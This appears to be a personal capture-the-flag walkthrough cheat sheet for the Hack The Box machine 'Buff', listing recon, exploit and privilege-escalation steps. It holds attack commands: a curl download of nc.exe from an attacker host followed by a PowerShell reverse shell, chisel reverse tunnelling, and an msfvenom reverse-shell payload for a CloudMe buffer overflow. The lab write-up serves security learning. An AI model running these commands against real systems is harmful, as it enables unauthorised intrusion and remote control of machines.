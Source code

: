 # Buff Tips

# ${{\color{purple}Box Buff}}\ $

`nmap -sC -sV -oA buff 10.10.10.198` 
### or 
`nmap -p- -sV -oA bufffull 10.10.10.198`

# ${{\color{purple}Initial Foothold}}\ $

* Inspect source code
* Launch gobuster at the same time 
* Download an image and look at the metadata check the date of upload with `exiftool`
* Visit the site as a user
* Add a proxy in the exploit to redirect flows to burp

`searchsploit Gym Management System 1.0`

https://www.exploit-db.com/48506

`searchsploit -m php/webapps/48506.py`

`python2.7 48506.py http://10.10.10.198:8080`

`curl http://10.10.X.X:80/nc.exe -o nc.exe && nc.exe 10.10.X.X 444 -e powershell`
### or 
`powershell Invoke-WebRequest -Uri http://10.10.X.X/nc.exe -OutFile C:\xampp\htdocs\gym\upload\nc.exe`

`netstat -an | findstr "LISTENING"`
### Windows Machine :
`.\chisel.exe client 10.10.16.5:9002 R:3306:localhost:3306 R:8888:localhost:8888`
### kali Machine :
`./chisel server --reverse --port 9002`

# ${{\color{purple}Privilege Escalation}}\ $
`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.X.X LPORT=1234 EXITFUNC=thread-b '\x00\x0A\x0D' -f python`

`python buffer_CloudMe_1112.py`

# ${{\color{purple}Points of Improvement}}\ $

* Use `netcat wget powershell` to avoid being locked into a bad shell 
* Do the post exploitation by hand before using tools like `WinPeas.exe`
* Don't forget to change the variable names when I use msfvenom
